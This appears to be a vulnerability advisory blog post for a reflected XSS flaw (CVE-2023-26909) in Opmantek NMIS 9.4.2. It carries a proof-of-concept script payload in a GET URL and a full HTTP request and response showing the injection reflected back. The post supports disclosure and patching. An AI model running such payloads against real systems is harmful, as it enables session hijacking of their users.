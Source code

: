 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in Opmantek NMIS module before 9.4.3"
date:   2023-04-06 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: CVE-2023-26909
* CWE ID: CWE-79

#### Vendor: Opmantek (FirstWave company)

#### Product: Opmantek NMIS9 Virtual Appliance

#### Version affected: NMIS 9.4.2 and earlier versions

#### Product description:

FirstWave is a publicly-listed, global technology company formed in 2004 in Sydney, Australia.
FirstWave’s globally unique CyberCision platform provides best-in-class cybersecurity technologies, enabling FirstWave’s Partners, including some of the world’s largest telcos and managed service providers (MSPs), to protect their customers from cyber-attacks, while rapidly growing cybersecurity services revenues at scale.

The affected product is the Opmantek NMIS9 Virtual Appliance, which is developed by Opmantek, a subsidiary of FirstWave Corporation, a publicly-listed global technology company based in Sydney, Australia. The product version affected is NMIS 9.4.2 and earlier versions.

#### Proof of Concept:

A Proof of Concept (PoC) has revealed the presence of a reflected cross-site scripting (XSS) vulnerability in the product. The vulnerability was discovered on the cgi-bin/config.pl page, and it can be exploited to execute malicious code in the context of the affected user's session.

The attack scenario involves injecting a JavaScript payload into the 'act' parameter of the URL, which gets executed when the user logs in with their credentials. The PoC also provides evidence of the script payload being returned in the HTTP response.

#### Reproducing of Cross-Site scripting:
{% highlight ruby %}

1.GET Request

https://1.2.3.4/cgi-nmis9/config.pl?act=%3Cscript%3Ealert(1)%3C/script%3E&section=system&item=hide_groups

2. User admin/password in this case getting logged on, when injected java script gets executed.

3. Final HTTP Request/Response

Request:

POST /cgi-nmis9/config.pl HTTP/1.1
Host: 1.2.3.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------219772600018532218693195954924
Content-Length: 1030
Origin: https://1.2.3.4
Referer: https://1.2.3.4/cgi-nmis9/config.pl
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="auth_username"

admin
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="auth_password"

password
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="login"

Login
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="conf"


-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="login"

Login
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="act"

<script>alert(1)</script>
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="section"

system
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="item"

hide_groups
-----------------------------219772600018532218693195954924--

Response:

HTTP/1.1 200 OK
Date: Wed, 04 Jan 2023 07:07:13 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
Expires: Wed, 04 Jan 2023 07:07:15 GMT
Set-Cookie: omk=eyJhdXRoX2RhdGEiOiJhZG1pbiIsImV4cGlyZXMiOjE2NzI4MTc4MzV9--a1cfd6a852976485aaba2df83a25208834899b73; path=/; expires=Wed, 04-Jan-2023 07:37:15 GMT; HttpOnly
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 77

Config: ERROR, act=<script>alert(1)</script>, node=, intf=
Request not found

{% endhighlight %}

#### Recommendation:

This vulnerability can be mitigated by updating the affected product to a patched version. The company has released a fixed version of the product (NMIS 9.4.3) that addresses this vulnerability. It is recommended that users upgrade to the latest version to ensure the security of their systems.

#### References:

1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://firstwave.com/products/network-management-information-system/
3. https://support.opmantek.com/browse/SUPPORT-10209
4. https://community.opmantek.com/display/NMIS/NMIS+9+Release+Notes
5. https://dl-nmis.opmantek.com/nmis9-9.4.3.run
